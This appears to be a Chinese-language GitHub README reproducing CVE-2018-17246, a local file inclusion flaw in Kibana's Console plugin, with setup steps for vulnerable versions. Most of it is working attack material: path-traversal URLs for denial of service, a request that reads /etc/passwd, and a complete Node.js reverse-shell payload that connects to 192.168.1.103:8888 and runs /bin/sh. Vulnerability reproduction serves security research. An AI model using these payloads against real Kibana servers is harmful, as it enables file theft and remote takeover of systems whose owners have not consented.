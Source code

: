 # Elasticsearch Kibana Console插件命令执行漏洞(CVE-2018-17246)

影响版本:  
ElasticSearch Kibana <6.4.3, ElasticSearch Kibana <5.6.13  
## 相关链接：
https://www.anquanke.com/post/id/168291  
http://www.cnvd.org.cn/flaw/show/CNVD-2018-23907   
## 测试:
下载压缩包  
`wget https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.1.1.zip`  
`wget https://artifacts.elastic.co/downloads/kibana/kibana-6.1.1-linux-x86_64.tar.gz`  
解压运行  
`./elasticsearch-6.1.1/bin/elasticsearch`  
`./kibana-6.1.1-linux-x86_64/bin/kibana -H 0.0.0.0`  
漏洞场景  
- 拒绝服务攻击向量(root权限运行可触发)  
`/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis= ../../../cli_plugin/index`  
`/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../cli_plugin/cli.js`  
`/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../docs/cli.js`  
- 任意文件读取(服务端会抛出读取的内容,不需要root权限运行可触发)  
`/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd`   
- 配合第三方应用反弹shell(不需要root权限运行可触发)  
`/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../..//home/shell.js`  
shell.js(服务器需安装有nodejs)  
```
(function(){
	var net = require("net"),
		cp = require("child_process"),
		sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(8888, "192.168.1.103", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; //
})();
```
![DOS](https://github.com/LizhangHuang/vuls/raw/master/kibana/CVE-2018-17246/DOS.png)  
![文件读取](https://github.com/LizhangHuang/vuls/raw/master/kibana/CVE-2018-17246/%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96.png)  
![反弹shell](https://github.com/LizhangHuang/vuls/raw/master/kibana/CVE-2018-17246/%E5%8F%8D%E5%BC%B9shell.png)  
